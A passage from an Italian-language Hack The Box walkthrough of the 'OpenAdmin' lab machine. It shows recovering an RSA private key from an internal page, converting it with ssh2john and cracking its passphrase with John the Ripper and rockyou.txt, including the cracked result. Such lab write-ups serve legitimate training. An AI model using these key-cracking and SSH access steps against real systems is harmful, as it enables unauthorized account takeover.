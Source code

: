 ```bash
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Sep 30 19:20:12 2023 from 10.10.14.16
jimmy@openadmin:~$
```

ed eccoci al sito interno,

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/openadmin4.png)
Mettiamo le credenziali, e siamo dentro.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/openadmin5.png)

ci troviamo nella pagina `main.php` e a quella che sembra una chiava privata RSA. 

Dopo averla salvata e avergli dato i permessi di lettura e scrittura con `chmod 600` proviamo a collegarci in ssh utilizzando l'id_rsa appena trovato. 

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# chmod 600 id_rsa_enc

┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa':

```

ci richiede una passphrase...
per provare a romperla prima di darla in pasto a [John The Ripple](Note/Tool/John%20The%20Ripple.md) dobbiamo convertila attraverso il tool [ssh2john](ssh2john.md) per estrare l'hash contenuto nella id_rsa 

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# ssh2john id_rsa_enc > id_rsa_hash
```

solo ora utilizziamo [John The Ripple](Note/Tool/John%20The%20Ripple.md)

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# john id_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:03 DONE (2023-09-30 15:49) 0.3021g/s 2892Kp/s 2892Kc/s 2892KC/s bloodofyouth..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
